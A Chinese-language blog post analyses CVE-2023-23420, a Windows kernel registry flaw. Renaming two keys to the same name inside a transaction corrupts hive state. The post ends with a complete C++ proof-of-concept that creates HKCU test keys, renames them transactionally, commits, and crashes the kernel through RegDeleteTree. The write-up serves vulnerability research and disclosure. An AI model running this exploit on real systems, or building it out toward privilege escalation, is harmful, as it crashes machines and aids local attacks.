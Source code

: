 ```yaml
---
layout: post
title:  "CVE-2023-23420"
categories: hack
tags:  pentest
author: cn6u9
---
```


* content
{:toc}

Windows 中就地重命名注册表项的操作在 NtRenameKey 系统调用中实现，大部分核心逻辑在内部 CmRenameKey 函数（由 NtRenameKey 调用）中找到。为了保持 hive 数据库的状态一致，内核防止键名冲突很重要，如果已经存在另一个具有该名称的键，则永远不要接受重命名键的新名称。这是通过调用 CmpFindSubKeyByNameWithStatus 并在新名称已存在时返回 STATUS_CANNOT_DELETE 来实现的。这足以防止与配置单元中持久存在的子键发生冲突。

然而，还有一类键在 Hive 结构中还没有全局可见的键节点，但具有相应的 KCB 并且实际上存在于事务范围内：尚未提交的事务创建/重命名键. 在这个阶段，它们无法通过 CmpFindSubKeyByNameWithStatus 找到，但是 NtRenameKey/CmRenameKey 应该考虑到它们。它们目前在事务重命名案例中没有得到正确处理，这可能导致配置单元状态不一致、内存损坏和本地攻击者潜在的特权提升。

CmRenameKey 中的具体逻辑对我们来说似乎有些不直观，我们无法基于逆向工程来完全解释它。该函数知道一个密钥的 KCB 可能已经存在的事实，因为它试图通过调用 CmpFindKcbInHashEntryByName 来找到它。仅当未找到 KCB 时，才会使用 CmpCreateKeyControlBlock 分配一个新的。尽管如此，即使为新密钥名称找到了现有的 KCB，也不会进行任何进一步的检查以验证事务处理分支中 KCB 的状态（密钥是否处于活动状态？它是否处于删除/卸载状态等） .?). 相反，CmRenameKey 似乎假定 KCB 处于新鲜/未使用状态并完全拥有它，忽略对象的任何现有状态和依赖项。这表现在几个方面：

1) 例程无条件地覆盖 KCB 的部分内容，特别是 KCB.KeyCell 和 KCB.TransKCBOwner 字段（可能已经设置为不同的值）。
2) 例程在 KCB 上调用 CmpLockIXLockExclusive 两次而不检查返回值，就好像该函数永远不会失败（如果 KCB 的锁已经被另一个事务占用，它就会失败）。
3) 如果稍后在 CmRenameKey 期间遇到任何错误，则通过调用 CmpMarkKeyUnbacked/CmpDereferenceKeyControlBlockWithLock 销毁 KCB，并且不会尝试保留其现有状态。

我们发现以上是一个强有力的指标，表明该函数假设在 KCB 的新副本上运行，即使它在 CmpFindKcbInHashEntryByName 返回时可能已完全初始化并起作用。

原则上，触发漏洞需要三个步骤：

1) 通过创建（例如 RegCreateKeyEx）或重命名（例如 RegRenameKey）操作以事务方式创建测试密钥，但不要提交它。
2) 事务性地将另一个键重命名为步骤 1 中键的名称。
3) 提交步骤 1/2 中的事务。

从理论上讲，这应该会导致创建两个具有相同名称的子项，这通常是不可能的，但需要一些工作才能转换为内存损坏原语。

在实践中，由于 CmpAddSubKeyToList/CmpAddToLeaf 函数之间面临重复键名的混淆，我们立即得到数据库的不一致状态：_CM_KEY_NODE.SubKeyCounts[1] 等于 0x2，但 _CM_KEY_NODE.SubKeyLists[ 指向的键索引1] 只有一个条目。
附件是一个概念验证漏洞，它执行以下步骤：
1. 创建 HKCU\Test\AAAA 和 HKCU\Test\BBBB 密钥。
2. 将两个子项事务性地重命名为 HKCU\Test\CCCC。
3. 提交事务。
4. 尝试通过 RegDeleteTree 递归删除整个 HKCU\Test 树。

第 2-3 步触发错误，第 4 步触发内核崩溃。发生的情况是，一旦 HCKU\Test\CCCC 第一次被删除，子键索引变为空，因此 _CM_KEY_NODE.SubKeyLists[1] 单元格索引重置为 -1 (0xFFFFFFFF)。但是 _CM_KEY_NODE.SubKeyCounts[1] 仅从 0x2 递减到 0x1，因此当 RegDeleteTree API 尝试再次枚举子键以查找下一个要删除的键时，内核尝试将无效的 -1 索引转换为虚拟地址，并生成未处理的异常。

poc:

```cpp
#include <Windows.h>
#include <ktmw32.h>
#include <sddl.h>

#include <cstdio>

#pragma comment(lib, "ktmw32")

int main(int argc, char** argv) {
  LSTATUS st;

  //
  // Create two test keys under HKCU\Test.
  //

  HKEY hTestKeyA, hTestKeyB;
  st = RegCreateKeyExA(HKEY_CURRENT_USER,
                       "Test\\AAAA",
                       0,
                       NULL,
                       REG_OPTION_VOLATILE,
                       KEY_ALL_ACCESS,
                       NULL,
                       &hTestKeyA,
                       NULL);

  if (st != ERROR_SUCCESS) {
    printf("RegCreateKeyExA #1 failed with error %d\n", st);
    return 1;
  }

  RegCloseKey(hTestKeyA);

  st = RegCreateKeyExA(HKEY_CURRENT_USER,
                       "Test\\BBBB",
                       0,
                       NULL,
                       REG_OPTION_VOLATILE,
                       KEY_ALL_ACCESS,
                       NULL,
                       &hTestKeyB,
                       NULL);

  if (st != ERROR_SUCCESS) {
    printf("RegCreateKeyExA #2 failed with error %d\n", st);
    return 1;
  }

  RegCloseKey(hTestKeyB);

  //
  // Create a transaction.
  //

  HANDLE hTrans = CreateTransaction(NULL, NULL, 0, 0, 0, 0, NULL);
  if (hTrans == INVALID_HANDLE_VALUE) {
    printf("CreateTransaction failed with error %u\n", GetLastError());
    return 1;
  }

  //
  // Open the test keys and rename both of them transactionally to the same new
  // name.
  //

  st = RegOpenKeyTransactedA(HKEY_CURRENT_USER,
                             "Test\\AAAA",
                             0,
                             KEY_ALL_ACCESS,
                             &hTestKeyA,
                             hTrans,
                             NULL);

  if (st != ERROR_SUCCESS) {
    printf("RegOpenKeyTransactedA #1 failed with error %d\n", st);
    return 1;
  }

  st = RegOpenKeyTransactedA(HKEY_CURRENT_USER,
                             "Test\\BBBB",
                             0,
                             KEY_ALL_ACCESS,
                             &hTestKeyB,
                             hTrans,
                             NULL);

  if (st != ERROR_SUCCESS) {
    printf("RegOpenKeyTransactedA #2 failed with error %d\n", st);
    return 1;
  }

  st = RegRenameKey(hTestKeyA, NULL, L"CCCC");

  if (st != ERROR_SUCCESS) {
    printf("RegRenameKey #1 failed with error %d\n", st);
    return 1;
  }

  st = RegRenameKey(hTestKeyB, NULL, L"CCCC");

  if (st != ERROR_SUCCESS) {
    printf("RegRenameKey #2 failed with error %d\n", st);
    return 1;
  }

  //
  // Commit the transaction.
  //

  if (!CommitTransaction(hTrans)) {
    printf("CommitTransaction failed with error %u\n", GetLastError());
    return 1;
  }

  //
  // Try to recursively delete the test key tree, triggering a crash.
  //

  RegDeleteTree(HKEY_CURRENT_USER, L"Test");

  return 0;
}
```

# 小结


